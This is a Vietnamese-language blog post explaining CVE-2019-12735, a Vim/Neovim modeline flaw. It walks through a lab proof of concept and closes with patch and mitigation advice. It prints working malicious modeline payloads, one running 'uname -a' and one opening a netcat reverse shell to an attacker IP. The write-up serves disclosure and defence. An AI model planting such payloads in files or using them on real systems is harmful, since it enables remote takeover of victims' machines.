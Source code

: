 ![](https://images.viblo.asia/457c936f-82a6-401a-a8ef-e693f2c15da6.jpg)

- Nếu gần đây bạn chưa cập nhật hệ điều hành Linux, đặc biệt là tiện ích soạn thảo văn bản dòng lệnh, đừng thử xem nội dung của tệp bằng Vim hoặc Neovim.
- **Nhà nghiên cứu bảo mật [Armin Razmjou](https://twitter.com/rawsec) gần đây đã phát hiện ra lỗ hổng thực thi lệnh hệ điều hành tùy ý nghiêm trọng cao (CVE-2019-12735) ở Vim và Neovim – hai ứng dụng chỉnh sửa văn bản dòng lệnh phổ biến và mạnh mẽ nhất được cài đặt sẵn với hầu hết các hệ điều hành dựa trên Linux.**

- Trên các hệ thống Linux, trình soạn thảo Vim cho phép người dùng tạo, xem hoặc chỉnh sửa bất kỳ tệp nào, bao gồm văn bản, tập lệnh lập trình và tài liệu. Do Neovim chỉ là một phiên bản mở rộng của Vim, với trải nghiệm người dùng, plugin và GUI tốt hơn, lỗ hổng thực thi mã cũng nằm trong đó.
# Lỗ hổng thực thi mã trong Vim và Neovim

- [Razmjou](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md) đã phát hiện ra một lỗ hổng trong cách trình soạn thảo Vim xử lý “modelines”, một tính năng được bật theo mặc định để tự động tìm và áp dụng một tập hợp các tùy chọn tùy chỉnh được đề cập bởi người tạo tệp gần dòng bắt đầu và kết thúc trong tài liệu.

![](https://images.viblo.asia/ece5d294-c36a-47ea-9175-62f272df9cde.gif)

- Mặc dù trình chỉnh sửa chỉ cho phép một tập hợp con các tùy chọn trong mô hình (vì lý do bảo mật) và sử dụng sandbox protection nếu nó chứa biểu thức không an toàn, Razmjou tiết lộ rằng sử dụng lệnh “:source!”  (với một sửa đổi [!]) có thể được sử dụng để bỏ qua sandbox.
- Do đó, chỉ cần mở một tệp được tạo thủ công đặc biệt bằng cách sử dụng Vim hoặc Neovim có thể cho phép kẻ tấn công bí mật thực thi các lệnh trên hệ thống Linux của bạn và kiểm soát nó từ xa.
- Nhà nghiên cứu cũng đã phát hành public hai Proof-of-Concept (PoC) cho mọi người, một trong số đó thể hiện một kịch bản tấn công ngoài đời thực, trong đó một kẻ tấn công từ xa có quyền truy cập vào một reverse shell từ hệ thống của nạn nhân ngay khi anh ta mở một tập tin trên nó.



# Dưới đây là từng bước khai thác lỗ hổng PoC:
- **Máy PoC** : Ở đây ta đã sử dụng Kali Linux của tôi (4.17.8 x86_64) làm máy mục tiêu cho thử nghiệm này. 
    + IP máy Victim : 172.31.242.25 
    + IP máy Attacking : 172.31.242.143 

- **Mô Tả quá trình** : 
    + Kiểm tra nếu tùy chọn modeline chưa bị tắt.
    + Để PoC thực thi lệnh trên trình soạn thảo Vim. 
    + Chạy shell để tạo lệnh reverse shell kết nối ngược lại máy Attacking và sau đó chiếm quyền hệ thống.

    ##### Bước 1: Chi tiết kernel Kali linux:
    ```
        root@kali:~# cat /proc/version
        Linux version 4.17.0-kali1-amd64 (devel@kali.org) (gcc version 7.3.0 (Debian 7.3.0–25)) 
        #1 SMP Debian 4.17.8–1kali1 (2018–07–24)
        root@kali:~#
    ```
    
    ![](https://images.viblo.asia/80c80213-49ef-477f-a89d-8a88340c6503.png)
    
    ##### Bước 2: Đặt modeline trong tệp vimrc. Chỉ cần thêm `':set modeline'` vào cuối tệp và lưu lại
    
    ```
        root@kali:~# tail -2 /etc/vim/vimrc
        
        :set modeline
        root@kali:~#
    ```
    
    ![](https://images.viblo.asia/a5488c42-4df1-4894-9b37-f5961e691f8c.png)
    
   ##### Bước 3: Tạo file `cmdtest.txt` để thực thi lệnh.
   ```
        root@kali:~# cat cmdtest.txt
        
        :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
        root@kali:~#
   ```
   ![](https://images.viblo.asia/38cb81f6-bacd-4ed1-b167-7973b9fe22b1.png)
   
  #####  Bước 4: Bây giờ mở tệp trên bằng trình chỉnh sửa vim. Nó sẽ đưa ra output tương ứng với kết quả của commad `'uname -a'` .
  ```
        root@kali:~# vim cmdtest.txt
        Linux kali 4.17.0-kali1-amd64 #1 SMP Debian 4.17.8–1kali1 (2018–07–24) x86_64 GNU/Linux
        Press ENTER or type command to continue
  ```
  ![](https://images.viblo.asia/2eb3dab1-66c0-4430-9a6f-54d8188251aa.png)
  - Nhấn nút Enter, điều này sẽ đưa bạn đến trình soạn thảo Vim. Sử dụng `': q!'` để thoát khỏi nó.
     
  ##### Bước 5: Bây giờ đến phần thú vị thực sự : Tạo reverse shell.
  - Tạo một tệp mới hoặc chỉnh sửa `cmdtest.txt` để ghi đè lệnh reverse shell thay vì sử dụng lệnh `uname` đơn giản.
  
   ##### Bước 5.1: Ở phía Attacker:
   - Thiết lập trình nghe netcat trên máy attacking 
   ![](https://images.viblo.asia/1e389d9a-38c4-4511-a4cd-1373c7578c1c.png)
   
  ##### Bước 5.2: Ở phía Victim: Chuẩn bị và thực hiện exploit
  - Tôi đang tạo một tệp mới có tên `'revshell.txt'` trong đó tôi đã thay thế lệnh `'uname -a'` trước đó bằng lệnh netcat reverse shell  đơn giản.
  ```
      root@kali:~# cat revshell.txt
      :!nc -nv 172.31.242.143 4444 -e /bin/sh ||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
      root@kali:~#
  ```
  
  ![](https://images.viblo.asia/a6173d71-9c09-454d-ba4a-8ea21e924547.png)
  
  ##### Bước 5.3: Cuối cùng mở tệp `revshell.txt` bằng lệnh Vim và xem reverse shell tìm đến máy Attacking .
     - **Bên Phía Victim**: 
     
     ```
         root@kali:~# vim revshell.txt
        (UNKNOWN) [172.31.242.143] 4444 (?) open
     ```
     ![](https://images.viblo.asia/29c3b31d-2da9-41db-b5b1-dedfcabed01c.png)
     
     - **Bên Phía Attacker**: 
    
     ![](https://images.viblo.asia/1e389d9a-38c4-4511-a4cd-1373c7578c1c.png)
    
    - Và sau đó Attacker có thể dễ dàng chiếm quyền.

# Kết Luận :
- Các nhà bảo trì của Vim (bản vá 8.1.1365) và Neovim (phát hành trong v0.3.6) đã phát hành bản cập nhật cho cả hai tiện ích để giải quyết vấn đề, người dùng nên cài đặt càng sớm càng tốt.
- Bên cạnh đó, nhà nghiên cứu cũng đã khuyến nghị người dùng:
    + vô hiệu hóa tính năng modelines
    + vô hiệu hóa “modelineexpr” để không cho phép các expressions trong modelines
    + sử dụng “securemodelines plugin”, một giải pháp thay thế an toàn cho các Vim modeline.
     -----
**Nguồn**: 
- https://thehackernews.com/2019/06/linux-vim-vulnerability.html#email-outer
- https://medium.com/@magrabursofily/exploit-poc-linux-command-execution-on-vim-neovim-vulnerability-cve-2019-12735-4c770d5573cf